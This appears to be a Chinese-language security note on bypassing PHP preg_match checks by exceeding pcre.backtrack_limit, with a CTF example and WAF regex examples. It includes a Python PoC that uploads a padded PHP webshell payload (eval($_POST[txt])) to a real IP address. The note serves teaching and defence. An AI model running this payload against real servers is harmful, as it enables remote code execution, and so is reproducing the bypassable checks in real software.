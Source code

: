 * pcre回溯次数上限
  * PHP为了防止正则表达式的拒绝服务攻击(reDOS)，给pcre设定了一个回溯次数上限`pcre.backtrack_limit`
  * 查看当前环境的回溯次数上限(默认为1000000次) `var_dump(ini_get('pcre.backtrack_limit'));`
* 绕过的前置条件
  * 如果用`preg_match`对字符串进行正则匹配，没有使用安全可靠的全等号`===`来判断返回值，而是使用了可被绕过的`==`、或在变量名前加`!`进行判断
* 构造超长字符串进行利用
  * 如果匹配过程中超过了PCRE回溯次数限制，就返回`false`，而没有返回预期的`0`或`1`，导致正则表达式的判断被绕过。


错误例子1:

某ctf题 正则表达式的判断可被绕过
```php
<?php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(!is_php($input)) {
    // 写入文件 进入该代码块则可getshell
    // fwrite($f, $input); ...
}
```

write-up PoC:
```python
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```


错误例子2:
基于php的WAF 正则表达式的判断可被绕过

以下例子都可以通过构造"大量回溯"绕过判断
```php
<?php
//贪婪模式
if(preg_match('/SELECT.+FROM.+/is', $input)) {
    die('SQL Injection');
}
```

```php
//非贪婪模式
<?php
if(preg_match('/UNION.+?SELECT/is', $input)) {
    die('SQL Injection');
}
```
